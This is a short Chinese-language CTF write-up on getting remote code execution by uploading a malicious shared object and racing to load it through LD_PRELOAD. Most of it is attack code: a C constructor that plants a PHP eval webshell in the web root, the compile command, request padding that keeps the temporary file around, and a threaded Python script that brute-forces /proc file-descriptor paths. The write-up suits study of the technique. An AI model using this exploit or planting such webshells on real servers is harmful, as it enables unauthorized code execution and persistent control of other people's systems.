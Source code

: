 所以这个题：我们先传一个so文件进去，然后包含这个临时文件，就可以实现RCE

生成so文件

```c
#include <stdio.h>
#include <unistd.h>
#include <stdio.h>
__attribute__ ((__constructor__)) void angel (void){
unsetenv("LD_PRELOAD");
system("echo \"<?php eval(\\$_POST[cmd]);?>\" > /var/www/html/flag");
} 


```

编译一下

```
gcc -shared -fPIC exp.c -o exp.so
```

这个c代码后，可以定义一个函数加入很多无用代码，增加请求body的长度，更容易产生临时文件

```
a=0+0+0+0+0+0+0+0+0+0+0+0+0+0+0+0+0+0+0+0+0+0+0+0+0+0+0+0+0+0+0+0+0+0+0+0+0+0+0+0+0+0+0+0+0+0;
```

然后就是竞争的脚本了

```python
import requests
import _thread

f=open("exp.so",'rb')
data=f.read()
url=""

def upload():
    print("start upload")
    while True:
        requests.get(url+"index.php",data=data)

def preload(fd):
    while True:
        print("start ld_preload")
        for pid in range(10,20):
            file = f'/proc/{pid}/fd/{fd}'
            # print(url+f"index.php?env=LD_PRELOAD={file}")
            resp = requests.get(url+f"index.php?env=LD_PRELOAD={file}")
            # print(resp.text)
            if 'uid' in resp.text:
                print("finished")
                exit()

try:
    _thread.start_new_thread(upload, ())
    for fd in range(1, 20):
        _thread.start_new_thread(preload,(fd,))
except:
    print("error")

while True:
    pass
```

